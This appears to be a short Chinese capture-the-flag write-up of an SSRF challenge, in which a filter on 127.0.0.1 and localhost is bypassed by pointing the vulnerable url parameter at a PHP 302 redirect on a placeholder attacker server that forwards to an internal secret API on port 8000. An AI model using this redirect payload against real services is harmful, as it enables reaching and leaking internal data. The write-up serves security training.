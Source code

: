 ### 302 跳转绕过

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/686453bf58cb8da5c885d754.png)

访问环境时显示 url 不存在

![](https://pic1.imgdb.cn/item/686454c258cb8da5c885d82d.png)

构造 url 测试

![img](https://github.com/Jason1314Zhang/BUUCTF-WP/raw/main/N1BOOK/images/ssrf2-2.png)

![](https://pic1.imgdb.cn/item/6864565e58cb8da5c885d9c5.png)

发现可以访问百度，根据题目提示说

![](https://pic1.imgdb.cn/item/6864568758cb8da5c885d9c6.png)

我们就访问容器内部的 8000 端口，但是有过滤 `127.0.0.1` 及 `loaclhost`

利用服务器构造 302 跳转绕过

在自己的服务器构建 `302.php`

```http
url=http://{your_server}/302.php
```

```php
<?php
header("location: http://127.0.0.1:8000/api/internal/secret")
?>
```

![](https://pic1.imgdb.cn/item/6864570858cb8da5c885d9d3.png)